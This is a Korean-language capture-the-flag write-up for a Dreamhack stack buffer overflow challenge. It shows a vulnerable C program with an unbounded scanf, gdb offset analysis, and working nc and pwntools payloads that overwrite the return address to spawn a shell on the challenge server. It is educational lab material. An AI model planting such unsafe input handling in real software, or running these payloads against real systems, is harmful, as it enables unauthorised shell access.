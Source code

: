 ## 📍Return Address Overwrite

```c
// Name: rao.c
// Compile: gcc -o rao rao.c -fno-stack-protector -no-pie

#include <stdio.h>
#include <unistd.h>

void init() {
  setvbuf(stdin, 0, 2, 0);
  setvbuf(stdout, 0, 2, 0);
}

void get_shell() {
  char *cmd = "/bin/sh";
  char *args[] = {cmd, NULL};

  execve(cmd, args, NULL);
}

int main() {
  char buf[0x28];

  init();

  printf("Input: ");
  scanf("%s", buf);

  return 0;
}
```

#### 풀이
`main` 함수가 반환될 때 돌아갈 반환 주소에 `get_shell()` 함수의 주소를 넣어야 한다.
`scanf()` 함수의 버퍼 시작 주소를 알아내고, 리턴 주소인 `rbp+0x8`까지의 거리를 알아낸다.
버퍼 시작 주소부터 리턴 주소까지 더미 데이터로 채운다.
더미 데이터 이후에는 `get_shell()` 함수의 시작 주소를 넣는다.


`rao` 바이너리를 gdb로 분석:
![](Attachments/3DBFE693-B01D-495B-8CCA-1428D4460714.png)

`scanf()` 함수의 버퍼 시작 주소 = `rbp-0x30`

![](Attachments/0F7D3B72-B913-4AB6-A0BD-BA48609C5D6C.png)

`get_shell()` 함수의 시작 주소: `0x4006aa`

```
$ (python -c "print 'A'*0x30 + 'B'*0x8 + '\xaa\x06\x40\x00\x00\x00\x00\x00')" | nc host3.dreamhack.games 22743
```

위처럼 파이썬 인터프리터로 전달하지 말고 pwntools를 이용해보자! 😠

```python
from pwn import *

p = remote('host3.dreamhack.games', 22743)
payload = b'A'*0x30 + b'B'*0x8 + b'\xaa\x06\x40\x00\x00\x00\x00\x00'

p.sendline(payload)

p.interactive()
```

![](Attachments/B5182A5A-5D23-4958-81C1-1B7FF2686AE5.png)

🚩